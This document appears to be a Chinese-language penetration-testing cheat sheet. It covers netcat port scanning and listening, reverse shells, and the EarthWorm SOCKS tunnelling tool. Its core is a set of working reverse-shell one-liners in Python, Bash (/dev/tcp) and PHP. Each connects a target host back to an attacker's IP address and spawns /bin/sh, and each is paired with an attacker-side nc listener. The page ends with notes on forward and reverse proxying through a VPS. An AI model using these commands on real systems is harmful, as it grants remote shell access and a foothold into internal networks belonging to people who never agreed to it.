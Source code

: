 端口扫描
nc -v IP地址 80
80端口开启会显示 open
 
多端口扫描
nc64.exe -v -z IP地址 20-1024
 
端口监听
nc64.exe -l -p 192.168.253.23 80

特殊情况
Default
在一般情况下，目标主机中是没有nc的，可以使用其他工具和编程语言来代替nc，实现反向连接，方法很多，可以参考。
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

Python反向 shell
Default
攻击机监听4447端口
nc -lvp 4447
 
目标主机
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("攻击者服务器ip",4447));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

Bash反向Shell
Default
攻击机
nc -lvp 4448
 
目标主机
bash -i >& /dev/tcp/攻击者服务器ip/4448 0>&1

PHP反向shell
Default
攻击机
nc -lvp 4449
 
目标主机
php -r '$sock=fsockopen("192.168.253.16",4449);exec("/bin/sh -i <&3 >&3 2>&3");'

应用层隧道技术

EarthWorm（EW）

必须攻击者能访问到他的IP ，才能使用正向代理，否则需要使用反向代理。

一级网络环境
正向
Default
目标机器
ew -s ssocksd -l 888
 
攻击者
利用proxifier连接
 
win+r运行远程桌面连接
反向
Default
需要在vps上运行ew 目标主机去访问公网VPS
 